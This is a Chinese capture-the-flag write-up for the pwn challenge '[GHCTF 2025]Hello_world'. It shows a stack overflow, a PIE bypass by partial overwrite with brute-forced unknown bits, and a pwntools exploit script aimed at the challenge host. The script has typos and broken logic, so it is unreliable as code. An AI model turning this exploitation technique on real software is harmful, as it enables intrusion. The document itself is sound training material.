

## 基本信息

- 题目名称： [GHCTF 2025]Hello_world
- 题目链接： https://www.nssctf.cn/problem/6543
- 考点清单： 栈溢出，ret2text，PIE保护，partial overwrite，未知位爆破
- 工具清单： 无
- payloads： 详见本文末尾

## 一、看到什么

### 第一轮

- 一如往常pwntools查看文件


- 发现**PIE保护**



- gdb查看函数，发现后门函数**backdoor**，同时动态链接库里发现**read**、**system**，盲猜**ret2text**


## 二、想到什么解题思路

### 第一轮

- **ret2text**：**read**函数溢出，劫持程序流，寻找调用**read**的函数；同时找**system**调用处和**“/bin/sh”**字符串处

- **PIE绕过**：尝试寻找**泄露函数地址**的地方

### 第二轮

- 局部覆盖地址

### 第三轮

- 局部覆盖，未知位爆破

## 三、尝试过程和结果记录

### 第一轮

- GDB反汇编查看几个函数
- **init**函数，简单的设置缓冲区


- **out**函数，估计是banner，没涉及变量，只有堆上的字符串


- **func1**，调用了**read**，且很明显存在0x20长度的溢出，vuln已找到。


- 查看main函数


- 看一下之前找到的后门函数**backdoor**，调用系统命令行，很完美的后门，跳转目标地址已找到。


- 转了一圈发现全程没有泄露过地址，泄露地址的思路泡汤。

### 第二轮

- 发现后三位地址固定，尝试直接篡改栈内ret地址的后三位


- 思路确定，动态调试分析padding
- 确定调用处地址


- 确定read函数存储位置，并借助调用处地址计算：
	- padding = 前两行 4字符 * 4组 * 2行 + 第三行 4字符 * 2组 = 40字符


- 更新payload，顺便更正红框内的地址为小端存储形式


- 尝试运行，失败


### 第三轮

- 这次直接手搓一下输入，动态调试看看输入进去长什么样


- 发现和预期输入有差异，0a是换行符，使用send()代替sendline()即可消除；倒数第四个位不一定是0，而我们的输入为\x09，导致的不符
- 尝试爆破倒数第四位的地址


- 写成死循环了......改下；再改下payload，p64就把前面全覆盖上了


- flag到手


## 四、总结与反思

- 解题收获：**PIE保护**的新绕过方式——**partical overwrite** + 爆破未知位
- 不足之处：在构造payload上有一些误操作导致绕了很大一个圈子
- 改进措施：先判断需要构造的**输入结构**，不要无脑p64格式

## 五、本地工具环境配置

- pwntools

```bash
pip install pwntools
```

## 六、Payload

```python
from pwn import *

lc = "./hello"
rmt = "node6.anna.nssctf.cn"
port = 27373

ELF(lc)

p = remotr(rmt, port)
padding = 40
#addr_last_3bit = 0x9c1
payload = padding * b'A' + b'\xc1' + b'\x09'

while 1:
    try:
        p.sendafter(“pwner”, payload)
        sleep(2)
        p.send("ls")
        sleep(1)
    except Exception:
		p.close()
    
	else:
        p.interactive()
        break

```

